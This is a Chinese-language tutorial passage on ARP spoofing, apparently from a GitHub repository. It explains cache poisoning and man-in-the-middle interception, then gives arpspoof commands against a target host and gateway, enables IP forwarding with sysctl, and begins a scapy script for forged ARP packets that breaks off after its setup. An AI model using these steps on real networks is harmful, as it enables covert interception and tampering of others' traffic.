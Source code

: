 # ARP欺骗

---



## 一、ARP欺骗原理

1、ARP欺骗：

```tex
ARP（Address Resolution Protocol）是在计算机网络中用于将IP地址映射到MAC地址的协议。ARP欺骗是一种网络攻击，攻击者通过篡改ARP缓存中的条目，欺骗网络中的计算机，使其将数据发送到错误的MAC地址，从而使攻击者能够拦截、篡改或监听通信。
```

2、ARP攻击：

```tex
ARP缓存欺骗（ARP缓存投毒）：攻击者发送虚假的ARP响应，将自己的MAC地址与另一个IP地址相关联。这会导致目标计算机错误地将数据发送到攻击者的MAC地址，而不是正确的目标地址。

中间人攻击：攻击者发送虚假的ARP响应，将自己伪装成网络中的路由器或另一个合法设备。这使得所有流经攻击者的数据流都会经过攻击者的机器，使攻击者能够监视、篡改或拦截通信。

ARP回复（ARP Reply）：攻击者发送大量伪造的ARP回复，告诉网络中其他设备，目标设备的MAC地址已经改变。这会导致其他设备更新其ARP缓存，将攻击者的MAC地址错误地与目标IP地址关联。
```

3、ARP欺骗的危害：

```tex
ARP欺骗可用于执行各种恶意活动，包括中间人攻击、数据拦截、数据篡改等。防范ARP欺骗包括使用安全性更高的网络协议（如ARP防护）、网络监控和流量分析工具，以及实施网络级加密和认证措施。
```

## 二、实施ARP欺骗

#### 1、使用kali自带的工具arpspoof，攻击目标主机：

```bash
arpspoof -i [你的网络接口] -t [目标 IP] [网关 IP]
# eg: arpspoof -i eth0 -t 192.168.1.2 192.168.1.1
```

​	这样可以将目标主机发给网关的数据流量发到本机，但是网络不能通信，因为本机不能转发流量，因此要在本机开启IP流量转发。

```bash
sysctl -w net.ipv4.ip_forward=1
# 将ip_forword的值设置为1表示开启流量转发，设置为0则表示关闭流量转发
```

​	停止攻击

```bash
arpspoof -i [你的网络接口] -d -t [目标 IP] [网关 IP]
```

#### 2、使用python的scapy库发送ARP欺骗数据包：

​	python代码：

```python
from scapy.layers.l2 import ARP, Ether
from scapy.sendrecv import sendp
import time


def run():
    target_ip = ''
    target_mac = ''

    spoof_ip = ''
    spoof_mac = ''

```